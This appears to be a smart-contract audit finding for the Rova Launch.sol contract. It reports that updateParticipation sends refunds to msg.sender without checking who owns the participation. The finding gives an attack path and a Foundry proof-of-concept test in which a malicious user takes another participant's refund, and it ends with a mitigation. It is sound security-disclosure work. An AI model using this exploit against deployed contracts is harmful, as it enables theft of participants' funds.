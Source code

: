 Recumbent Tawny Cow

High

# Malicous User Can steal Participant Funds

### Summary

When a participant wants to update his participation settings he invoke `updateParticipation` function and sepcify `UpdateParticipationRequest` and `signature` if the `newAmount > oldAmount` the difference is transfered from the `msg.sender` if the `newAmount<oldAmount` the `msg.sender` is refunded 

[#L351C9-L363C85](https://github.com/sherlock-audit/2025-02-rova/blob/main/rova-contracts/src/Launch.sol#L351C9-L363C85)

[#L364C11-L377C10](https://github.com/sherlock-audit/2025-02-rova/blob/main/rova-contracts/src/Launch.sol#L364C11-L377C10)

```solidity
function updateParticipation(...){

...

    if (prevInfo.currencyAmount > newCurrencyAmount) {

   @>      IERC20(request.currency).safeTransfer(msg.sender, refundCurrencyAmount);

}

else if (newCurrencyAmount > prevInfo.currencyAmount) {
          
@>          IERC20(request.currency).safeTransferFrom(msg.sender, address(this), additionalCurrencyAmount);
        }

}

```
There is an  issue exists where  any user with a valid request can modify another participant’s settings and receive their refund instead.

### Root Cause

This issue arrises because in `_validateRequest` it checks that the address specified in the request is the msg.sender => `_userAddress == msg.sender`

[#L645C10-L648C37](https://github.com/sherlock-audit/2025-02-rova/blob/main/rova-contracts/src/Launch.sol#L645C10-L648C37) 

instead it should check that the `msg.sender ` == `participantAddress` to prevent anyone  from excuting the request   

### Internal Pre-conditions

1- This Bug need only signed request to be exploited 

### External Pre-conditions

- None

### Attack Path

1- User1 call `participate` function with the following signed request 

```solidity 

ParticipationRequest({
            chainId: block.chainid,
            launchId: testLaunchId,
            launchGroupId: testLaunchGroupId,
            launchParticipationId: testLaunchParticipationId,
            userId: testUserId,
            userAddress: user1,
            tokenAmount: 1000 * 10 ** launch.tokenDecimals(),
            currency: address(currency),
            requestExpiresAt: block.timestamp + 1 hours
        });

```
2- malicous user  call `updateParitipation` with the following signed request adding his address to bypass `_validateRequest` function and take the refund 

```solidity 
ParticipationRequest({
            chainId: block.chainid,
            launchId: testLaunchId,
            launchGroupId: testLaunchGroupId,
            launchParticipationId: testLaunchParticipationId,
            userId: testUserId,
   @>        userAddress: malicousUser,
            tokenAmount: 600* 10 ** launch.tokenDecimals(),
            currency: address(currency),
            requestExpiresAt: block.timestamp + 1 hours
        });
```

+ This will pass all checks since it's signed transaction and the `msg.sender==userAddress`

3- following these steps the `malicousUser` has updated `user1` participation settings succefully 


### Impact

The malicous user will take the difference between `oldAmount` and the `newAmoun` as a refund since the transfer is done to `msg.sender` instead of the owner of the participation

### PoC

+ Include the Following PoC in `Launch.UpdateParticipation.t.sol`

```solidity 

    function testAnyoneCanStealParticipant () public {
        // Prepare update participation request
        address malicousUser = makeAddr('malicous');
        UpdateParticipationRequest memory malicousRequest = UpdateParticipationRequest({
            chainId: block.chainid,
            launchId: testLaunchId,
            launchGroupId: testLaunchGroupId,
            prevLaunchParticipationId: testLaunchParticipationId,
            newLaunchParticipationId: "newLaunchParticipationId",
            userId: testUserId,
            userAddress: malicousUser,
            tokenAmount: 600 * 10 ** 18,
            currency: address(currency),
            requestExpiresAt: block.timestamp + 1 hours
        });
        // signing
        bytes memory updateSignature = _signRequest(abi.encode(malicousRequest));
       // checking that user1 tokenBalanceBefore
        ParticipationInfo memory oldInfo = launch.getParticipationInfo(malicousRequest.prevLaunchParticipationId);
        assertEq(oldInfo.tokenAmount,1000e18);
        console.log("Old Currency Amount:",oldInfo.currencyAmount);

        vm.startPrank(malicousUser);
        assertEq(currency.balanceOf(malicousUser),0);
        launch.updateParticipation(malicousRequest,updateSignature);
        ParticipationInfo memory newInfo = launch.getParticipationInfo(malicousRequest.newLaunchParticipationId);
        // checking that user1 tokenBalanceAfter
        assertEq(newInfo.tokenAmount,600e18);
        console.log("New Currency Amount:",newInfo.currencyAmount);
        // Malicous User took the refund
        assertEq(currency.balanceOf(malicousUser),400e18);


    }

```

![Image](https://sherlock-files.ams3.digitaloceanspaces.com/gh-images/3cba3420-4d18-41da-8433-bbb8468b3bc8)

### Mitigation

- The protocol need to verify that the `msg.sender == Original participant`